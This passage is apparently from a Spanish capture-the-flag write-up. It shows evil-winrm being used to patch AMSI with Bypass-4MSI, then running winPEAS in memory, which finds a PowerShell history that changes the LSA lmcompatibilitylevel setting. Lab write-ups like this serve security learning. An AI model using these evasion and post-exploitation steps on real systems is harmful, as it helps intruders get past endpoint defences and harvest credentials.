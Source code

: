 Podría tratar de bypassearlo con una utilidad de evil-winrm, que se encarga de hacer un Bypass-4MSI para desactivar AMSI

Esto se encarga de inyectar directamente el programa en memoria para así no tener que ejecutarlo

```null
*Evil-WinRM* PS C:\Temp> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (     '    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```

```null
*Evil-WinRM* PS C:\Temp> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
```

Una vez cargado, reportará todo el output de golpe

```null
*Evil-WinRM* PS C:\Temp> Invoke-Binary /opt/winpeas.exe
```

Encuentra un histórico de PowerShell

```null
╔══════════╣ Found History Files
File: C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Su contenido es el siguiente:

```null
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```
